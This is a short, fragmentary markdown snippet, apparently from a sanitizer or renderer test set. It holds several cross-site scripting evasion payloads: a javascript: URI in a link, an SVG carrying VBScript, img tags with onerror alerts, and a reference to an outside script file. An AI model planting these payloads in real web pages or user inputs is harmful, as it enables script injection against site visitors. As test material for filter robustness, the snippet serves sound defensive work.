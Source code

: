 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<a href="\"javascript%3aalert(1)">Click Here</a>
<svg contentScriptType=text/vbs><script>MsgBox+1
                                 <img src ?itworksonchrome?\/onerror = alert(1)

](()
